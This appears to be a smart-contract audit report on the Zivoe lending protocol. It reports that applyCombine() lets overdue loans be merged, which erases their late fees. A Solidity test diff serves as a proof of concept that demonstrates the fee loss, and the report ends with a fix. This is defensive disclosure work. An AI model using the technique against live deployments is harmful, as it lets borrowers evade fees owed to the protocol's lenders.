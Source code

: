 Expert Inky Bobcat

medium

# Loans overdue on their payment dates can be combined, leading to the protocol losing fees.

## Summary
The function `OCC_Modular.applyCombine()`  doesn't verify whether any of the loans being combined are overdue. Consequently, if any of the loans are late, the outstanding late fees will be disregarded during the combination process.

## Vulnerability Detail
The underwriter can approve loan combinations where two or more loans merge into a single one, however the function `OCC_Modular.applyCombine()` does not check if any of these loans carry outstanding late fees. Consequently, loans past their payment date can be combined, resetting their `paymentDue` field and effectively erasing the outstanding late fees.

See POC below:
```diff
diff --git a/zivoe-core-testing/src/TESTS_Lockers/Test_OCC_Modular.sol b/zivoe-core-testing/src/TESTS_Lockers/Test_OCC_Modular.sol
index bf05e08..ae02e2c 100644
--- a/zivoe-core-testing/src/TESTS_Lockers/Test_OCC_Modular.sol
+++ b/zivoe-core-testing/src/TESTS_Lockers/Test_OCC_Modular.sol
@@ -3481,6 +3481,86 @@ contract Test_OCC_Modular is Utility {
 
     }
 
+    function test_POC() public {
+        // START OF SETUP
+        uint256 amount = 10000e18;
+        uint256 borrowAmount = 1e18;
+        uint256 APR = 500;
+        uint256 APRLateFee = 1000;
+        uint256 term = 1;
+        uint256 deadline = 86400 * 7;
+        uint256 gracePeriod = 7 days;
+        int8 paymentSchedule = 1;
+
+        simulateITO(amount * WAD, amount * WAD, amount * USD, amount * USD);
+
+        assert(god.try_push(address(DAO), address(OCC_Modular_DAI), DAI, amount, ""));
+
+        assert(roy.try_createOffer(
+                address(OCC_Modular_DAI),
+                address(tim),
+                borrowAmount,
+                APR,
+                APRLateFee,
+                term,
+                deadline,
+                gracePeriod,
+                paymentSchedule
+        ));
+
+        assert(roy.try_createOffer(
+                address(OCC_Modular_DAI),
+                address(tim),
+                borrowAmount,
+                APR,
+                APRLateFee,
+                term,
+                deadline,
+                gracePeriod,
+                paymentSchedule
+        ));
+
+        uint[] memory loanIDs = new uint[](2);
+        loanIDs[0] = 0;
+        loanIDs[1] = 1;
+
+        tim_acceptOffer(0, DAI);
+        tim_acceptOffer(1, DAI);
+
+        hevm.warp(block.timestamp + (86400 * 14));
+        // END OF SETUP
+
+        (,,uint256 lateFeesLoan0 ,) = OCC_Modular_DAI.amountOwed(0);
+        (,,uint256 lateFeesLoan1 ,) = OCC_Modular_DAI.amountOwed(1);
+        // Assert that none of the loans are over they payment date.
+        assertEq(lateFeesLoan0, 0);
+        assertEq(lateFeesLoan1, 0);
+
+        // Underwriting approve the combine of loan 0 and 1.
+        hevm.startPrank(address(roy));
+        OCC_Modular_DAI.approveCombine(loanIDs, APRLateFee, term, deadline, gracePeriod, paymentSchedule);
+        hevm.stopPrank();
+
+        hevm.warp(block.timestamp + 86400);
+
+        uint256 totalLoan0;
+        uint256 totalLoan1;
+        (,, lateFeesLoan0, totalLoan0) = OCC_Modular_DAI.amountOwed(0);
+        (,, lateFeesLoan1, totalLoan1) = OCC_Modular_DAI.amountOwed(1);
+        // Assert that both loans have oustanding late fees.
+        assertGt(lateFeesLoan0, 0);
+        assertGt(lateFeesLoan1, 0);
+
+        hevm.startPrank(address(tim));
+        OCC_Modular_DAI.applyCombine(0);
+        hevm.stopPrank();
+
+        (,,,uint256 totalLoanCombined) = OCC_Modular_DAI.amountOwed(2);
+        // Assert that during combine the late fees are not accounted properly
+        // Therefore the total owed in the combined loan is less than the sum of the total owed of loans 0 and 1
+        assertLt(totalLoanCombined, totalLoan1 + totalLoan0);
+    }--
+
     function test_OCC_Modular_applyCombine_fourLoans_state(
         uint96 random, bool choice, uint8 select, uint termOffer, uint gracePeriodOffer, uint24 aprLateFee
     ) public {
```

## Impact
Loans overdue on their payment dates can be combined, leading to the protocol losing fees.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L742-L808

## Tool used
Manual Review

## Recommendation
Consider adding a check to ensure that loans are not past their payment date before combining them.
